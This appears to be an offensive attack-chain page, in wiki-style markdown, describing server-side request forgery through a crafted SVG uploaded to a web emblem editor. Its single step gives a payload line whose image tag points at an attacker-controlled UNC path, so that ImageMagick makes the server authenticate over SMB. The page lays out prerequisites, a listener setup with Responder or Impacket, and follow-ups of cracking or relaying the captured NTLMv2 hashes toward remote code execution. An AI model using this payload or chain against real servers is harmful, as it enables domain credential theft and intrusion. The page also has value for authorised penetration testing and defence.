

# SSRF via Crafted SVG in Emblem Editor to Expose Domain Credentials

Multi-stage attack chain demonstrating a complete attack workflow exploiting SSRF in a web-based emblem editor to capture server credentials via SMB authentication.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- None (relies on manual file crafting and a remote SMB listener like Responder or Impacket)

### Target Environment

- Web application with SVG upload feature using ImageMagick or librsvg for processing
- Server configured for domain authentication (e.g., Active Directory)
- Outbound SMB access allowed from the server

### Initial Access Requirements

- Access to the web application (e.g., user account for emblem editor)
- Network position allowing the server to reach attacker's controlled SMB endpoint
- No prior credentials needed beyond app access

## Detailed Attack Procedures

### Step 1: Craft and Submit Malicious SVG
procedure: [[procedures/Craft-and-Submit-Malicious-SVG-for-SSRF]]

**Objective**: Upload a specially crafted SVG file to the emblem editor, triggering ImageMagick to process UNC paths and initiate SMB authentication to the attacker's listener, capturing NTLMv2 hashes.

**Instructions**: Create an SVG file embedding UNC paths pointing to the attacker's SMB server. Use a text editor to craft the SVG, then submit it via the web interface. Set up a listener on the attacker's side to capture the authentication attempt.

For example, craft the SVG with an image tag like `<image xlink:href="\\attacker-ip\share\file.svg" />`, ensuring ImageMagick resolves it as a UNC path.

Submit the file through the emblem editor upload form.

**Expected Output**: Server initiates SMB connection to attacker-ip, sending domain credentials in NTLMv2 format.

**Success Indicators**:
- Incoming SMB authentication request on listener
- Captured NTLMv2 hash for offline cracking or relay

## Attack Chain Summary

### Key Achievements

1. Forced server-side SMB request via SSRF in SVG processing
2. Exposed domain credentials and NTLMv2 hash
3. Enabled potential relay attacks leading to RCE on internal systems

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Use Alternate Authentication Material]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
